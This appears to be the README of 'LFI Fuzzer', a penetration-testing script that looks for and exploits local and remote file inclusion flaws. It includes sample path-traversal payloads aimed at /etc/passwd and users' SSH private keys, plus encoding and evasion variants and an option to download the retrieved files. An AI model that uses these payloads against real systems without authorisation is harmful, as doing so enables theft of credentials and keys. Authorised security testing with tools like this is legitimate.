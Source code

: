 # LFI Fuzzer
A script to find and exploit LFI/RFI vulnerabilities with handy options.


## How to use

Get a copy of lfi_fuzzer.py and lfi_list.txt or another wordlist
```
$ python lfi_fuzzer.py -u "http://localhost/?page=" -w lfi_list.txt
```

List arguments with -h or --help
```
$ python lfi_fuzzer.py -h
```


### Arguments

### Required arguments

##### -u / --url <URL>
##### -w / --wordlist <WORDLIST>


### Fuzz parameters

##### -t / --nb-parent <nb>
Number of directories we need to traverse up
Default : 10

##### -e / --encode <nb>
Number of URL encode passes
Default : none
```
without encode : ../../page_xx'xx
--encode 1 : ..%2F..%2Fpage_xx%27xx
--encode 2 : ..%252F..%252Fpage_xx%2527xx
```

##### -p / --path-prefix <prefix>
Real or fake path to add before anything in the payload
Default : none
```
--path-prefix xxx/ : xxx/../../etc/passwd
--path-prefix /var/www/html/ : /var/www/html/../../etc/passwd
```

##### -n / --append-null
Add a null charactacter at the end of the payload
Default : none


##### -m / --traversal-method <method>
Use various traversal methods
Default : 0
```
--traversal-method 0 : ../
--traversal-method 1 : ..//
--traversal-method 2 : ....//

--traversal-method 999
Path randomly generated : some payloads may just not work depending on HTTP servers, you should try a few times.
./..../.././///./././/..//..//././//../
```


##### -ds / --dir-separator <method>
Use various directory separators
Default : 0
```
--dir-separator 0 : /
--dir-separator 1 : \
--dir-separator 2 : \\
--dir-separator 3 : /./
```


##### -x / --var <value>
Replace `[VAR]` placeholder in a payload by your own value
Default : none
```
../../home/[VAR]/.ssh/id_rsa become :
../../home/Billy/.ssh/id_rsa

```

### Fuzzing actions

##### -s / --stress
Try everything against a single hardcoded payload (/etc/passwd) : between 6-10 directory parents, every encoding, every traversal method, and a few prefixes, including your own.

##### -o / --output
Just output payloads instead of try them

##### -d / --download <directory>
Enable downloading files


### Filters and sucess/error detection

##### -sc / --success-code
Default : 200

##### -ec / --error-code
Default : 400,403,404,500

##### -l / --min-length <length>
Minimum response length

##### -ss / --success-string <string>
Validating string to look for

##### -es / --error-string <string>
Failure string to look for
